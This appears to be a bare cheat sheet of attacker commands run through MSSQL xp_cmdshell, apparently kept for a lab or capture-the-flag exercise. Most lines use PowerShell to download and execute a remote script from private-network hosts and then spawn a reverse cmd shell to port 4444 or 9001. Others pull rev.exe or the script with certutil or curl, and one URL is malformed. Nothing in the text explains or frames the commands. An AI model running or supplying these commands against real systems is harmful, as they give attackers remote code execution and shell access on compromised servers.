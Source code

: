 xp_cmdshell powershell "iex(new-object net.webclient).downloadstring(\"http://192.168.69.3:8000/mitren.ps1\");powerrcatt -c 192.168.69.3 -p 4444 -e cmd"




xp_cmdshell "dir C:\Temp"


xp_cmdshell "curl http://192.168.69.3:8000/mitren.ps1 -o C:\Temp\mitren.ps1"


certutil -urlcache -f http://192.168.69.3:8000/rev.exe rev.exe
xp_cmdshell "certutil -urlcache -f http://http://192.168.69.3:8000/mitren.ps1 C:\Temp\mitren.ps1"

xp_cmdshell powershell "powerrcatt -c 192.168.69.3 -p 4444 -e cmd"




xp_cmdshell powershell "iex(new-object net.webclient).downloadstring(\"http://192.168.18.19/mitren.ps1\");powerrcatt -c 192.168.18.19 -p 9001 -e cmd"


xp_cmdshell powershell "iex(new-object net.webclient).downloadstring(\"http://192.168.69.3/mitren.ps1\");powerrcatt -c 192.168.69.3 -p 4444 -e cmd"